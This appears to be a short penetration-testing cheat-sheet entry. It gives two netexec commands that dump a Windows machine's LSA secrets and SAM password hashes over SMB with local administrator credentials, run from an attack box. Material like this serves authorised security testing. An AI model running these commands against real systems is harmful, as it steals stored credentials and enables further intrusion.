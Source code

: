 -- -
Dump the LSA and SAME with valid local admin credentials from attack box rather than needing to have a shell on the machine.
### LSA
```bash
netexec smb <ip> --local-auth -u <username> -p <passwd> --lsa
```
### SAM
```bash
netexec smb <ip> --local-auth -u <username> -p <password> --sam
```